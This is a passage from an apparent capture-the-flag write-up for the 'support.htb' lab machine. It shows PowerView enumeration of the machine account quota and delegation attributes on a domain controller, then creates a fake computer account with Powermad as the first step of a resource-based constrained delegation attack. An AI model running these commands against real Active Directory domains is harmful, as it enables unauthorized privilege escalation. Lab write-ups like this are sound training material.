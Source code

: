 We can easily check this attribute by importing [powerview](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) and using the `Get-DomainObject` commandlet 

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainObject -identity 'DC=support,DC=htb'

... Truncated ...

ms-ds-machineaccountquota                   : 10
minpwdage                                   : -864000000000
```
`ms-ds-machineaccountquota` indicates that we can add up to 10 machines to the AD. 

The next thing to look for is the DC OS Version, for this attack to work it needs to be at least Windows Server 2012 or above. 

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainController | select name,osversion | format-list

Name      : dc.support.htb
OSVersion : Windows Server 2022 Standard
```
The last thing to check is for the target host, in this case `dc.support.htb`, must NOT have the property of `msds-allowedtoactonbehalfofotheridentity` set. 

```
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer dc | select name,msds-allowedtoactiononbehalfofotheridentity | fl

name                                        : DC
msds-allowedtoactiononbehalfofotheridentity :
```
Now, for the attack itself. 

First step, create a new computer object in AD, I'll name mine `fakecomputer`. For this part we need to import [powermad.ps1](https://github.com/Kevin-Robertson/Powermad/blob/master/Powermad.ps1) to use its `New-MachineAccount` commandlet.

> Keep note of the machine name and the password. Both can be anything you want.
<br />
<br />
>Target Computer Name: dc.support.htb
<br />
>Admin on Target Computer: Administrator@support.htb
<br />
>Fake Computer name: fakecomputer
<br />
>Fake Computer Password: Password12345


```powershell
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount fakecomputer -Password $(convertto-securestring 'Password12345' -AsPlainText -force)

[+] Machine account fakecomputer added
```
